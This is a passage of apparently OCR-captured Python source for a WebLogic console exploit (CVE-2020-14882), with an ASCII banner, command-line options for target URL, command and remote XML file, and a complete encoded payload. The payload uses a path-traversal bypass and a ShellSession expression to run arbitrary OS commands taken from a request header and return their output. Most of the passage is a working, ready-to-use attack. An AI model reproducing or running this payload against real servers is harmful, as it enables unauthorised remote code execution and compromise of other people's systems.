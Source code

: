```python
		print ("[+] Attack complete!")

def main():
	banner = """  _______      ________    ___   ___ ___   ___        __ _  _   ___   ___ ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ | || | / _ \ / _ \__ \ 
| |     \ \  / /| |__ ______ ) | | | | ) | | | |______| | || || (_) | (_) | ) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |__   _> _ < > _ < / / 
| |____   \  /  | |____    / /_| |_| / /_| |_| |      | |  | || (_) | (_) / /_ 
 \_____|   \/   |______|  |____|\___/____|\___/       |_|  |_| \___/ \___/____|
                                                                               
                                                         Author:GGyao
                                                         Github:https://github.com/GGyao

"""

	print (banner)
	parser = argparse.ArgumentParser()
	parser.add_argument("-u", "--url", help="Target URL; Example:http://ip:port。")
	parser.add_argument("-f", "--file", help="Target File; Example:target.txt。")
	parser.add_argument("-c", "--cmd", help="Commands to be executed; ")
	parser.add_argument("-x", "--xml", help="Remote XML file; Example:http://vpsip/poc.xml; ")
	args = parser.parse_args()

	#功能1：命令回显。
	if args.url != None and args.cmd != None:
		url = args.url
		url_cmd = args.url + """/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("%5C%5CA").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')"""
		headers_cmd = {
		'User-Agent':'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
		'cmd':args.cmd,
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Content-Type':'application/x-www-form-urlencoded'
		}

		#post_cmd = """_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.WorkAdapter+adapter+%3d+((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()%3b+java.lang.reflect.Field+field+%3d+adapter.getClass().getDeclaredField("connectionHandler")%3bfield.setAccessible(true)%3bObject+obj+%3d+field.get(adapter)%3bweblogic.servlet.internal.ServletRequestImpl+req+%3d+(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj)%3b+String+cmd+%3d+req.getHeader("cmd")%3bString[]+cmds+%3d+System.getProperty("os.name").toLowerCase().contains("window")+%3f+new+String[]{"cmd.exe",+"/c",+cmd}+%3a+new+String[]{"/bin/sh",+"-c",+cmd}%3bif(cmd+!%3d+null+){+String+result+%3d+new+java.util.Scanner(new+java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\\A").next()%3b+weblogic.servlet.internal.ServletResponseImpl+res+%3d+(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req)%3b+res.getServletOutputStream().writeStream(new+weblogic.xml.util.StringInputStream(result))%3bres.getServletOutputStream().flush()%3bres.getWriter().write("")%3b}')"""

	
		#command(url_cmd,post_cmd,headers_cmd,url)
```